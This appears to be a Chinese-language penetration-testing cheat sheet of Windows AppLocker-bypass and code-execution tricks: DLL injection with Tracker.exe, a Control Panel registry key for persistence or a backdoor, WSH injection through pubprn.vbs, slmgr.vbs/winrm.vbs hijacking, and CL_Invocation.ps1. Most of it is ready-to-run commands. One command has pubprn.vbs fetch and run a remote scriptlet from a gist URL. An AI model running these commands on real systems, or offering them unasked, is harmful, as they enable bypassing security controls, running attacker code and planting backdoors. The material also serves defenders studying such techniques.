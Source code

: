 #### Tracker

Visual studio的一部分。需要1028子文件夹中的TrackerUI.dll，可以开启一个进程并注入dll， 当然也可以直接运行exe文件

```powershell
Tracker.exe /c "C:\Windows\System32\calc.exe"
Tracker.exe /d .\calc.dll /c C:\Windows\write.exe
```

#### Control Panel

通过添加注册表，在控制面板启动时设置好的代码将会被执行。这种方法可以用于bypass AppLocker，当然也可以用来设置后门。

```powershell
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Control Panel\Cpls"
/v pentestlab.cpl /t REG_SZ /d "C:\pentestlab.cpl"
```

Links:

- https://pentestlab.blog/2017/05/24/applocker-bypass-control-panel/
- https://www.contextis.com/blog/applocker-bypass-via-registry-key-manipulation

#### Pubprn.vbs

在Windows 7以后系统中，微软有一个名为**PubPrn.vbs**的WSH脚本，其中使用了GetObject()，并且参数可控，可以进行WSH注入攻击

```powershell
C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:https://gist.githubusercontent.com/api0cradle/fb164762143b1ff4042d9c662171a568/raw/709aff66095b7f60e5d6f456a5e42021a95ca802/test.sct
```

Links:

- https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
- https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/

#### slmgr.vbs/winrm.vbs

和Pubprn.vbs类似，不过它需要配合注册表，其中用到CreateObject()实例化 Scripting.Dictionary存在劫持后导致代码执行

```powershell
cscript /b C:\Windows\System32\slmgr.vbs
winrm quickconfig
```

Links:

- https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
- https://www.youtube.com/watch?v=3gz1QmiMhss

#### CL_Invocation.ps1

windows自带的诊断工具，可以执行exe文件

```powershell
PS C:\> . C:\Windows\diagnostics\system\AERO\CL_Invocation.ps1
PS C:\> SyncInvoke cmd.exe "/c ipconfig > E:\ip.txt"
```
